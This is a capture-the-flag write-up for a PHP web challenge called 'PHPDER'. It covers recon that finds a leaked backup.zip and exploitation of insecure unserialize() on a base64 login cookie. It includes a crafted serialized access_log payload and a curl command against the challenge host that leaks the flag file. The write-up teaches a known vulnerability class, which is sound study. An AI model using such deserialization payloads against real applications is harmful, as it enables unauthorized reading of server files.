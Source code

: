 # PHPDER Writeup

At first glance it is a login page:

![image](https://user-images.githubusercontent.com/80664686/117576250-66aa6180-b10f-11eb-8036-3bdadc9e0a61.png)

I tried a bit of SQL injection but there's just some <span style="color:red">*Invalid Login*</span> error

Ran `gobuster` to do some recon and found `/backup.zip` file. Unzip it and there're the sources of the web

File: [backup.zip](files/phpder_backup.zip)

## Overview code explaination

In `index.php`:
1. Run `cookie.php`
2. If we send a post message with 2 parameters: ***user** & **pass** --> create a new object `permission(user, pass)`
3. Check if the user is guest or admin
4. **Serialize** the object and encode with **base64**
5. Goto `authentication.php`

In `cookie.php`:
1. Create a new class **permission**. P/S: If you're familiar with *object oriented programming*, you should be easily understand it
2. Unserialize the **login** cookie, check if it's guest or admin
3. If cannot unserialize! --> print the object to screen

In `authentication.php`:
1. Create class **access_log** 
2. If it's admin --> append to log file

## Exploitation
By looking at this block:
```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```
> If cannot unserialize! --> print the object to screen

If you try to serialize yourself on local enviroment `$php -a`, you'll get something like this:
> TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO047czo4OiJwYXNzd29yZCI7Tjt9

Base64 decode, which is the serialized object:
> O:11:"permissions":2:{s:8:"username";N;s:8:"password";N;}

By default, the website will serialize **permission** object then deserialize it. 

What if... we change **permission** object to **access_log** object?

Serialized **access_log**:
> O:10:"access_log":1:{s:8:"log_file";s:8:"flag.txt";}

`flag.txt` is just a guess by the way 😛

Base64 encode:
> TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo4OiJmbGFnLnR4dCI7fQo=

Now we need to add the cookie and let it run the *print object* in `cookie.php`, but we need to request to `authentication.php` first to load the object structure.

```fish
$ curl http://chall4.ctf.night-wolf.io/authentication.php -b 'login="TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo4OiJmbGFnLnR4dCI7fQo="'
Deserialization error. FNW_CTF{pHp_0bj4ct_inj4ct10n_vu1n}
```
